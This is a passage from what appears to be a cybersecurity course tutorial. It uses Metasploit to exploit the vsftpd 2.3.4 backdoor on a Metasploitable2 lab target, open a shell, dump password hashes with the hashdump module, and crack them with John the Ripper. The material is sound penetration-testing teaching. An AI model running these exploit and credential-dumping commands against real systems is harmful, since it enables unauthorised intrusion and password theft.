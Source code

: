 ![grep vsftp](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/grep-vsftp.png?raw=true)

```bash
use exploit/unix/ftp/vsftp_234_backdoor

show info
```

![show info](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/show-info.png?raw=true)

> run

![run3](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run3.png?raw=true)

And now we have a shell in session 2. We can send it to the background (^Z), list the open sessions (sessions -l), and interact (sessions 2).

![Sessions](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/sesiones.png?raw=true)

We will try to extract users and passwords from the target using the hashdump module. Put the session in the background and select the module:

![Hashdump](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/hashdump.png?raw=true)

```bash
use post/linux/gather/hashdump

show options

set SESSION 2

show info

run
```

Now use the command `loot` to see the results so far:

> loot

![loot](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/loot.png?raw=true)

We were able to get the passwd, shadow, and unshadow files.

Open another terminal so that John the Ripper can open them:

```bash
$ john .msf4/loot/20190402110303_metasploitable2_192.168.231.109_linux.hashes_935091.txt
```

To see the results use the --show: option.

![show](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/show.png?raw=true)

We scanned port 21 and determined that a vulnerable version was running the FTP service. Using MSF we were able to:
